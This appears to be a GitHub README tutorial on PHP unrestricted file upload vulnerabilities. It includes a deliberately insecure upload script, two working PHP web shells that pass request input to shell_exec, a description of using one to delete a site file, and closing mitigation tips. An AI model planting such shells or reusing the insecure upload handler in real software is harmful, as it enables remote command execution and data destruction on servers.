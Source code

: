 # Unrestricted-file-Upload

### What is unrestricted file upload vulnerability?
When an attacker could send a form data POST request with a typical filename or Multipurpose Internet Mail Extensions(MIME) and can cause Arbitrary Code Execution(ACE). 
### What did i do?
I first made the script to upload the file(which by the way is very insecure), here is the code:
```
<?php
$t_file=basename($_FILES['thefile']['name']);
if (move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file)) {
	move_uploaded_file($_FILES['thefile']['tmp_name'], $t_file);
	echo "File '".$t_file."' uploaded successfully";
}else{
	echo "Something went wrong, try agains";
}
?>
```
I made 2 programs each demonstrating an aspect of file upload vulnerability, The first one, "hack.php" is a simple php script with an input, it executes as shell whatever you give as input.
here is the code
```
<?php
$shell=shell_exec('dir C:\\');
if ($_POST['exploit']) {
 $shell=shell_exec($_POST['exploit']);
   echo "<pre>$shell</pre>";
 }
 ?>
```
As you see i used shell exec which can invoke a command via shell and return the result.
Let's first unsecurely upload our file
![](/img/hack2.jpg)<br>
![](/img/hack1.png)<br>
Let's first a simple command like 'dir':
![](/img/hack3.jpg)<br>
here is the output we get:
![](/img/hack4.png)
Then let's execute a nasty command like del which will delete a file, for my case i'm going to delete the "index.php" file which is the main file.
The "index.php" file will be automatically deleted and the website will encounter problems.
This can be very scary as someone might be controlling your computer from within your website itself.
Then i made another script which takes url parameters to execute a command via shell and return the result.
Here is it's code:
```
<?php
echo shell_exec($_GET['shell'])
?>
```
This one is more scary than the first because it doesn't need visible immediate contact to execute itself, when programmers are working on a large code-base with thousands of files this one gets scary pretty fast when you see it's size"only 42 bytes".
### what can i do to make my website more secure?
-Well, use python, i mean seriously, use frameworks such as flask or django which won't just execute a file uploaded to the server but only follow predefined urls
- Scannning incoming urls
- Always use a filter "like getimagesize or pathinfo($file,PATHINFO_EXTENSION)" to check if the uploaded files are really what you want them to be 
- Limit file size, some uploads take a lot of space...(for example a script that builds an uploaded virus with gcc and so on...)
- Only allow authorized and authenticated users to use the feature. 
- Serve fetched files from your application rather than directly via the web server.
- Store files in a non-public accessibly directory if you can.
- Write to the file when you store it to include a header that makes it non-executable.

This is it, Happy coding
